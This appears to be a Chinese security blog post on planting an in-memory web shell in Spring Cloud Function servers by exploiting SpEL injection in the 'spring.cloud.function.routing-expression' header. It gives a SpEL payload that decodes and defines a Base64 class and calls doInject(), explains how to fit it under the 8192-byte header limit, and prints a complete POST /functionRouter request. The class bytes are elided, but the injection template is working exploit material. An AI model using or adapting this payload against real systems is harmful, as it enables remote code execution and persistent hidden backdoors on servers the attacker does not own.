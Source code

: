   
  
01  
  
单命令回显内存马  
  
  
  
这个漏洞适配内存马的不同点是payload在header头中触发的，照抄c0ny1师傅的payload如下：  
  
  
{T(org.springframework.cglib.core.ReflectUtils).defineClass('Memshell',T(org.springframework.util.Base64Utils).decodeFromString('yv66vgAAA....'),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject()}  
  
  
当直接把这个payload放入到header头的时候，由于header头过大导致报错  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/FOh11C4BDicRr8sSAgxuSBqkwaSiaNuG8hLyTpDDibxelTS4cp7h3tqQnFYpXMlflafXX07fa9sMEuibxhtTElaB7Q/640?wx_fmt=png "")  
  
  
通过报错信息看到header的大小不能超过8192字节  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/FOh11C4BDicRr8sSAgxuSBqkwaSiaNuG8hN5fqFZBeTp4pXrpoQYSI25hCPbE1Ja6nX0X2zYHppfpGHX5G3KaiaNw/640?wx_fmt=png "")  
  
  
通过和众多师傅交流，对变量名做出缩短（这是最简单的一种，但是我还没有实现4ra1n师傅的方法，从asm等角度缩小payload），Demo如下：  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/FOh11C4BDicRr8sSAgxuSBqkwaSiaNuG8hxgyPibdGvftQxFquN3RkDuosx0gjY3dLH4gDXbJIkWeibkMV4aOXkHKA/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/FOh11C4BDicRr8sSAgxuSBqkwaSiaNuG8hicvKhY2icZVdH5EMBOKuYJGelDCGMY4wmhkVHuMESlykTNkA6a2euR0w/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/FOh11C4BDicRr8sSAgxuSBqkwaSiaNuG8hCFRicfaTPVz2J8jhyDS9LrD9RHwIwISNUCJnYISs5CslqNFYsmymwqw/640?wx_fmt=png "")  
  
  
base64编码后的大小  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/FOh11C4BDicRr8sSAgxuSBqkwaSiaNuG8hPo2J99EhsrKk1rC2JjZgttM6EjBibUYdyjicYbGnOIJpjpx8NmAYWHCg/640?wx_fmt=png "")  
  
  
发送注册netty handler的数据包  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/FOh11C4BDicRr8sSAgxuSBqkwaSiaNuG8hQWEIjxIkOYymfQu8sCT376b6cK0nIDVp7RmJlx3jZYV7ibI8mbnaPXw/640?wx_fmt=png "")  
  
  
数据包如下：  
  
POST /functionRouter HTTP/1.1  
  
Host: 127.0.0.1:8080  
  
Accept: */*  
  
spring.cloud.function.routing-expression: {T(org.springframework.cglib.core.ReflectUtils).defineClass('m',T(org.springframework.util.Base64Utils).decodeFromString('xxx'),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject()}  
  
Content-Type: application/x-www-form-urlencoded  
  